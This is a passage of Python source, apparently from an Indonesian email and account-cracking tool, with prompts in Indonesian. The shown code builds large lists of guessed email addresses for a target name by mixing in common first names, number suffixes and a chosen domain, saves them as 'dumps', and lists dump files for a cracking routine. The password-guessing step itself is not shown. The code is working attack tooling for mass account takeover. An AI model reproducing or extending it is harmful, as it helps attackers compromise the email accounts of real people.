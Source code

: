 	xc = ['andi','dwi','muhammad','nur','dewi','tri','dian','sri','putri','eka','sari','aditya','basuki','budi','joni','toni','cahya','riski','farhan','aden','joko']
	blk = ['99','official','gaming','utama','123','1234','12345','123456','cakep']
	global ok , cp
	print('='*51)
	print(f'Masukan Nama Email Yang Ingin Di Crack\nContoh : Andi, Dian, Putri, Aditya')
	print('='*51)
	print('='*51)
	nama = input(f' [+] Masukan Nama Target : ')
	print('='*51)
	if ',' in str(nama):
		print(f" [+] Masukan Nama, Jangan Kosong Ngab")
		time.sleep(3);exit()
	print('='*51)
	print(f'Masukan Nama Domain\nContoh : @Gmail.com, @Yahoo.com, Dll')
	print('='*51)
	print('='*51)
	doma = input(f' [+] Masukan Nama Domain : ')
	print('='*51)
	if '@' not in str(doma) or '.com' not in str(doma):
		print(f" [+] Masukan Domain Dengan Benar")
		time.sleep(3);exit()
	print('='*51)
	print(f'Crack Email Hanya Max 5000 Idz Bang')
	print('='*51)
	print('='*51)
	jumlah = input(f' [+] Total Dump : ')
	print('='*51)
	for xyz in range(int(jumlah)):
		A = nama
		B = [f'{str(rc(xc))}',f'{str(rr(0,31))}',f'{str(rc(blk))}'f'{str(rc(xc))}{str(rr(0,31))}',f'{xyz}',f'{str(rc(blk))}{str(rr(0,31))}',f'{str(rc(xc))}{str(rc(blk))}']
		C = doma
		D = f'{A}{str(rc(B))}{C}'
		if D in id:pass
		else:id.append(D+'|'+nama)
		if len(id)==999999:setting()
		sys.stdout.write(f"\r [+] Mengumpulkan {len(id)} Idz...");sys.stdout.flush()
		time.sleep(0.0000003)
	print("\r")
	setting()
#-----------------[ CRACK-FILE ]-----------------#
def crack_file():
	try:vin = os.listdir('DUMP')
	except FileNotFoundError:
		print('╰─ File Tidak Ditemukan ')
		time.sleep(2)
		back()
	if len(vin)==0:
		print('╰─ Kamu Tidak Memiliki File Dump ')
		time.sleep(2)
		back()
	else:
		cih = 0
		lol = {}
		for isi in vin:
			try:hem = open('DUMP/'+isi,'r').readlines()
			except:continue
			cih+=1
			if cih<100:
				nom = ''+str(cih)
				lol.update({str(cih):str(isi)})
				lol.update({nom:str(isi)})
				print(f' %s. %s ({h} %s{x} idz )'%(nom,isi,len(hem)))
